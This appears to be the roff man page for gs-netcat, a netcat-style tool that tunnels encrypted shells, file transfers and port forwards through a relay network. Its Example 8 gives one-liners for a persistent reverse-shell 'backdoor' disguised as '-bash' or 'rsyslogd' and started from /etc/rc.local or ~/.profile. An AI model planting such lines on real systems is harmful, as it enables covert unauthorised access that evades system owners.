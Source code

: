 \# .TH gs-netcat 1 "08 October 2020" "1.0" "gs-netcat man page"
.Dd October 08, 2020
.Dt GS-NETCAT 1
.Os
.Sh NAME
.Nm gs-netcat
.Nd transfer data, forward traffic and execute commands on a remote host. Securely.
.Sh SYNOPSIS
.Nm gs-netcat
.Op Fl rlgqwCTSDiu
.Op Fl s Ar secret
.Op Fl k Ar keyfile
.Op Fl L Ar logfile
.Op Fl d Ar IP
.Op Fl p Ar port
.Op Fl e Ar cmd
.Sh DESCRIPTION
The
.Nm
utility is a re-implementation of netcat. It allows two or more users to establish a secure TCP connection with each other in a scenario where all users are behind NAT/Firewall and would not be able to connect to each other directly. Typically a connection between one workstation and another workstation on a different Local Area Network.
.Pp
It uses the Global Socket Relay Network (GSRN) instead of direct TCP connections. Neither workstation needs to open a port in their firewall or accept incoming TCP connections.
.Pp
The connection is end-2-end encrypted using SRP (RFC 5054) with AES-256 and a 4096 Prime. The GSRN sees only the encrypted traffic. 
.Pp
Common uses include:
.Pp
.Bl -bullet -offset indent -compact
.It
simple TCP proxies
.It
PTY shell
.It
File transfer
.It
a SOCKS ProxyCommand for
.Xr ssh 1
.It
and much, much more.
.El
.Pp
.Sh OPTIONS
.Bl -tag -width Ds
.It Fl C
Disable encryption and use clear-text instead. Use with caution.
.It Fl d Ar ip
Destination IPv4 address for port forwarding.
.It Fl D
Daemon & Watchdog mode. Start
.Nm
as a background process and restart if killed.
.It Fl e Ar cmd
Execute command and send output to the connected client. Needs -l.
.It Fl g
Generate a secure random password and output it to standard output.
.It Fl i
Interactive login shell. The server spawns a true PTY login shell. The client acts as a true PTY client (with Ctrl-C etc working). The client can terminate the session by typing 'Ctrl-e q' at any time or by typing 'exit'. The server supports multiple clients at the same time.
.It Fl k Ar file
A file containing the password.
.It Fl l
Server/Listening mode. The default mode is client.
.It Fl L Ar file
Log file [default: standard out]
.It Fl p Ar port
Port to listen on or to forward traffic to [1-65535].
.It Fl q
Quiet mode. Do not output any warnings or errors.
.It Fl r
Receive-only. Do not send any data. Terminate when no more data is available for reading.
.It Fl s Ar secret
A password chosen by the user. Both users need to use the same password to connect.
.It Fl S
Act as a SOCKS4/4a/5 server. The server acts as a SOCKS4/4a/5 proxy. It allows multiple
.Nm
clients to (securely) relay traffic via the server. Needs -l.
.It Fl T
Use TOR. The
.Nm
tool will connect via TOR to the GSRN. This requires TOR to be installed and running. The IP and PORT of the TOR server can be set using environment variables.
.It Fl u
Use UDP instead of TCP for port forwarding. Needs -p. 
.It Fl w
Client to wait for the listening server to become available.
.El
.Sh CONSOLE
The interactive login shell (
.Ar -i
) has a command console. Pressing 'Ctrl-e c' (e for EEEElite) opens the command console. The command console displays the following information:
.Pp
.Bl -bullet -offset indent -compact
.It
Latency (in milliseconds) to the remote host
.It
Warning when a user logs into the system or becomes active
.It
Data throughput
.It
File transfer logs
.El
Type 'help' for a list of available commands.
.Sh FILETRANSFER
File transfer is available from the command console. Files are transferred with the permission and modification timestamp unchanged. Partially transferred files are re-started where the transfer was left off.
The 'put' command is used for uploading:
.Dl put foobar.txt
.Dl put $HOME/foobar.txt
.Dl put /tmp/*.log
.Dl put $(find . -type f -name '*.c')
(The above example shows Shell Variable substitution and word expansion)
It is possible to limit the amount of path information that is sent as implied directories for each path you specify. You can insert a dot and a slash into the source path, like this:
.Dl put /foo/./bar/baz.c
That would create /tmp/bar/baz.c on the remote machine. 
The 'get' command is used for downloading:
.Dl get foobar.txt
.Dl get $(find /var/./ -name '*.log')
Transferring a directory automatically transfers all files and directories within that directory (recursively):
.Dl get /var/log
.Dl get /
The first command transfers all directories and files in /var/log/*. The latter command transfers the entire filesystem.
Multiple get/put commands can be scheduled at the same time.
.Sh EXAMPLES
.Nm Example 1
- Listen for a new connection using the password 'MySecret':
.Dl $ gs-netcat -s MySecret -l
.Pp
Connect with client using the same password:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 2
- spawn a PTY login shell when a client connects:
.Dl $ gs-netcat -s MySecret -l -i
.Pp
Log in to server's interactive shell:
.Dl $ gs-netcat -s MySecret -i
.Pp
.Nm Example 3
- Execute a command when a client connects:
.Dl $ gs-netcat -s MySecret -l -e 'echo hello world; id; exit'
.Pp
Connect client to the server:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 4
- Pipe data from client to server:
.Dl $ gs-netcat -s MySecret -l -r >warez.tar.gz
.Pp
Client to read 'warez.tar.gz' and pipe it to the server.
.Dl $ gs-netcat -s MySecret <warez.tar.gz
.Pp
.Nm Example 5
- Server to act as a SOCKS4/4a/5 server:
.Dl $ gs-netcat -s MySecret -l -S
.Pp
Client to listen on TCP port 1080 and forward any new connection to the server's SOCKS server:
.Dl $ gs-netcat -s MySecret -p 1080
.Pp
.Nm Example 6
- TCP Port Forward all connections to 192.168.6.7:22. Server:
.Dl $ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22
.Pp
Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.
.Dl $ gs-netcat -s MySecret -p 2222
.Dl $ ssh -p 2222 root@127.0.0.1
.Pp
The same using 1 command:
.Dl $ ssh -o ProxyCommand='gs-netcat -s MySecret' root@ignored
.Pp
.Nm Example 7
- Creating an SFTP server using gs-netcat:
.Dl $ gs-netcat -s MySecret -l -e /usr/lib/sftp-server
.Pp
The sftp-server binary speaks the sftp-protocol to stdin/stdout. The sftp binary also speaks sftp-protocol to stdin/stdout. The tool can be used to connect both via GSRN (encrypted) and access the SFTP server running on the server's side from the client via the GSRN (encrypted).:
.Dl $ export GSOCKET_ARGS='-s MySecret'
.Dl $ sftp -D gs-netcat
.Pp
.Nm Example 8
- Encrypted Reverse PTY shell hidden as '-bash' in the process list - also known as 'backdoor':
.Dl $ (GSOCKET_ARGS="-s MySecret -liqD" exec -a -bash gs-netcat)
.Pp
The following line in /etc/rc.local starts the backdoor after each system reboot:
.Dl GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c\ "cd $HOME; exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The following line in /etc/rc.local starts a port-forward to 127.0.0.1:22:
.Dl GSOCKET_ARGS="-k MySecret2 -lqD -d 127.1 -p22"  /bin/bash -c\ "exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The following line in the user's ~/.profile starts the backdoor (once) when the user logs in. All in one line:
.Dl killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret3 -liqD" SHELL=/bin/bash exec -a -bash /usr/local/bin/gs-netcat)
.Pp
The '(...)' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as -bash) from the process list.
.Pp
Client to connect to the backdoor:
.Dl $ gs-netcat -s MySecret -i
.Sh ENVIRONMENT
The following environment variables can be set to control the behavior of
.Nm
.Pp
.Nm GSOCKET_SOCKS_IP
.Dl Specify the IP address of the TOR server (or any other SOCKS server). Default is 127.0.0.1.
.Pp
.Nm GSOCKET_SOCKS_PORT
.Dl The port number of the TOR server (or any other SOCKS server). Default is 9050.
.Pp
.Nm GSOCKET_ARGS
.Dl A string containing additional command line parameters. First the normal command line parameters are processed and then the command line parameters from GSOCKET_ARGS.
.Sh SECURITY
Passing the password as command line parameter is not secure. Consider using the -k option or GSOCKET_ARGS or enter the password when prompted:
.Pp
.Dl $ gs-netcat -k <file>
.Pp
.Dl $ export GSOCKET_ARGS="-s MySecret"
.Dl $ gs-netcat
.Pp
.Nm 1.
The security is end-2-end. This means from User-2-User (and not just to the GSRN). The GSRN relays only (encrypted) data to and from the users.
.Pp
.Nm 2.
The session is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password). It uses OpenSSL's SRP with AES-256 and a 4096 Prime.
.Pp
.Nm 3.
The password can be 'weak' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
.Pp
.Nm 4.
Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use gs-netcat -g to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
.Pp
.Nm 5.
If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
.Pp
.Nm 6.
Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a <token> if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
.Pp
.Nm 7.
SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.
.Sh NOTES
The latest version is available from https://github.com/hackerschoice/gsocket/.
.Sh SEE ALSO
.Xr gsocket(1) ,
.Xr gs-sftp(1) ,
.Xr gs-mount(1) ,
.Xr blitz(1) ,
.Xr nc(1) ,
.Xr socat(1)
.Sh BUGS
Efforts have been made to have
.Nm
"do the right thing" in all its various modes. If you believe that it is doing the wrong thing under whatever circumstances, please notify me (skyper@thc.org) and tell me how you think it should behave.
